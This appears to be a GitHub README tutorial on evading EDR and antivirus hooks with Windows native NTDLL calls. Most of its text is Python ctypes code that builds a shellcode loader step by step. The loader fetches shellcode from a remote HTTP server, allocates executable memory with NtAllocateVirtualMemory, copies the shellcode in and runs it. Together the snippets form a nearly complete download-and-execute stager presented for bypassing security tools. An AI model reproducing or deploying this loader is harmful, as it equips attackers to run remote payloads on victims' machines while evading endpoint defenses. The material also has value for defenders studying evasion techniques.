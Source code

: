 # Native API Calls

Endpoint Detection and Response (EDR) and Anti-Virus (AV) solutions often use API hooking to collect telemetry data when analyzing whether an application's behavior is potentially malicious. One way to bypass such detection mechanisms is to use lower-level API calls that may not be hooked by these security solutions.

In Windows, API calls from user-space are often translated into lower-level system calls via the _NTDLL.dll_ library. These calls are generally undocumented and may change across Windows versions.

## References

- [Windows Native API - Wikipedia](https://en.wikipedia.org/wiki/Windows_Native_API)
- [Windows Memory Protection Constants](https://learn.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)
- [NtAllocateVirtualMemory Documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory)
- [NtProtectVirtualMemory Reference](https://github.com/m417z/ntdoc/blob/main/descriptions/ntprotectvirtualmemory.md)
- [RtlCopyMemory Documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
- [CFUNCTYPE Documentation](https://docs.python.org/3/library/ctypes.html#ctypes.CFUNCTYPE)


## Building the Script

We will use the `NtAllocateVirtualMemory` function from the _NTDLL_ library. This function allows for the allocation of memory in a process’s virtual address space, and we will also use `NtProtectVirtualMemory` to update the memory protection later. The script will fetch the shellcode from an HTTP server, allocate memory, copy the shellcode into the allocated memory, update memory protection, and finally execute the shellcode.

To start, we import the necessary modules from the `ctypes` library, which allows us to interact with Windows APIs at a low level.

```python
from ctypes import *
from ctypes import wintypes
```

Next, we define the argument types the functions expect.

```python
NtAllocateVirtualMemory = windll.ntdll.NtAllocateVirtualMemory
NtAllocateVirtualMemory.argtypes = (
    wintypes.HANDLE, POINTER(wintypes.LPVOID),
    wintypes.ULONG, POINTER(wintypes.ULONG),
    wintypes.ULONG, wintypes.ULONG
)
NtAllocateVirtualMemory.restype = NTSTATUS

NtProtectVirtualMemory = windll.ntdll.NtProtectVirtualMemory
NtProtectVirtualMemory.argtypes = (
    wintypes.HANDLE, POINTER(wintypes.LPVOID),
    POINTER(wintypes.ULONG), wintypes.ULONG,
    POINTER(wintypes.ULONG)
)
NtProtectVirtualMemory.restype = NTSTATUS
```

- `argtypes`: Defines the expected types for the function's arguments.
- `restype`: Specifies the return type for the functions (`NTSTATUS` for both functions).

<br>

Now, we fetch the shellcode from the HTTP server.

```python
print("Fetching shellcode from server...")

response = requests.get(URL)
shellcode = response.content
shellcode_length = len(shellcode)

print(f"Shellcode fetched: {shellcode_length} bytes.")
```

Here, we send a GET request to the server to fetch the shellcode. The shellcode is then stored in the `shellcode` variable, and we print out its length.

<br>

We then define the memory allocation parameters and use `NtAllocateVirtualMemory` to allocate memory for the shellcode. The memory size is rounded up to the nearest page size.

```python
ProcessHandle = 0xffffffffffffffff
BaseAddress = wintypes.LPVOID(0x0)
ZeroBits = wintypes.ULONG(0)

PAGE_SIZE = 4096
RegionSize = wintypes.ULONG((shellcode_length + PAGE_SIZE - 1) // PAGE_SIZE * PAGE_SIZE)
AllocationType = MEM_COMMIT | MEM_RESERVE

res = NtAllocateVirtualMemory(
    ProcessHandle,
    byref(BaseAddress),
    ZeroBits,
    byref(RegionSize),
    AllocationType,
    PAGE_EXECUTE_READ_WRITE
)

if res != 0:
    raise RuntimeError(f"NtAllocateVirtualMemory failed. Status code -> {res}")

print(f"Memory allocated at -> {hex(BaseAddress.value)}")
```

The memory is allocated with `MEM_COMMIT | MEM_RESERVE` flags and a `PAGE_EXECUTE_READ_WRITE` protection. The allocated memory is printed.

<br>

Next, we copy the shellcode into the allocated memory using `RtlCopyMemory`.

```python
shellcode_ptr = (c_char * shellcode_length).from_buffer_copy(shellcode)
RtlCopyMemory = windll.ntdll.RtlCopyMemory
RtlCopyMemory.argtypes = (wintypes.LPVOID, wintypes.LPCVOID, SIZE_T)
RtlCopyMemory.restype = None

RtlCopyMemory(
    BaseAddress,
    shellcode_ptr,
    shellcode_length
)

print("Shellcode copied to allocated memory.")
```

We then update the memory protection to `PAGE_EXECUTE_READ_WRITE` using `NtProtectVirtualMemory`.

```python
NewProtect = PAGE_EXECUTE_READ_WRITE
OldProtect = wintypes.ULONG(0)

res = NtProtectVirtualMemory(
    ProcessHandle,
    byref(BaseAddress),
    byref(RegionSize),
    NewProtect,
    byref(OldProtect)
)

if res != 0:
    raise RuntimeError(f"NtProtectVirtualMemory failed. Status code -> {res}")

print("Memory protection updated to PAGE_EXECUTE_READ_WRITE.")
```

The protection is updated to allow execution of the shellcode. This step is crucial for allowing the shellcode to execute from memory.


Finally, we define the shellcode function type and cast the allocated memory address to a callable function.

```python
shellcode_func = CFUNCTYPE(None)
shellcode_callable = cast(BaseAddress, shellcode_func)

print("Executing shellcode...")
shellcode_callable()
```

The `shellcode_func` type is defined as a function that takes no arguments and returns nothing. We cast the allocated memory address (`BaseAddress`) to this function type and then call the function to execute the shellcode.


## Example Output

![ss_demo](https://github.com/user-attachments/assets/ad8ac741-7c5a-4b15-bf29-6aae41cda892)
